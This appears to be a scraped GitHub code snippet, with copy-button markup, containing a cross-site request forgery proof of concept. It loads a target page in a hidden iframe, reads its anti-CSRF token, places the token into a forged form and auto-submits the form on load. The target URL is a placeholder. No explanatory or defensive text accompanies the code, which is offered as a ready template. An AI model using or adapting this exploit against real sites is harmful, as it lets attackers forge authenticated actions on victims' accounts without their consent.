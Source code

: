 <div class="snippet-clipboard-content position-relative overflow-auto"><pre lang="markup"><code>&lt;form id="form1" action="http://google.com?param=VALUE" method="post" enctype="multipart/form-data"&gt;
&lt;input type="text" name="username" value="AA"&gt;
&lt;input type="checkbox" name="status" checked="checked"&gt;
&lt;input id="token" type="hidden" name="token" value="" /&gt;
&lt;/form&gt;

&lt;script type="text/javascript"&gt;
function f1(){
    x1=document.getElementById("i1");
    x1d=(x1.contentWindow||x1.contentDocument);
    t=x1d.document.getElementById("token").value;
    
    document.getElementById("token").value=t;
    document.getElementById("form1").submit();
}
&lt;/script&gt; 
&lt;iframe id="i1" style="display:none" src="http://google.com?param=VALUE" onload="javascript:f1();"&gt;&lt;/iframe&gt;
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<form id=&quot;form1&quot; action=&quot;http://google.com?param=VALUE&quot; method=&quot;post&quot; enctype=&quot;multipart/form-data&quot;>
<input type=&quot;text&quot; name=&quot;username&quot; value=&quot;AA&quot;>
<input type=&quot;checkbox&quot; name=&quot;status&quot; checked=&quot;checked&quot;>
<input id=&quot;token&quot; type=&quot;hidden&quot; name=&quot;token&quot; value=&quot;&quot; />
</form>

<script type=&quot;text/javascript&quot;>
function f1(){
    x1=document.getElementById(&quot;i1&quot;);
    x1d=(x1.contentWindow||x1.contentDocument);
    t=x1d.document.getElementById(&quot;token&quot;).value;
    
    document.getElementById(&quot;token&quot;).value=t;
    document.getElementById(&quot;form1&quot;).submit();
}
</script> 
<iframe id=&quot;i1&quot; style=&quot;display:none&quot; src=&quot;http://google.com?param=VALUE&quot; onload=&quot;javascript:f1();&quot;></iframe>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
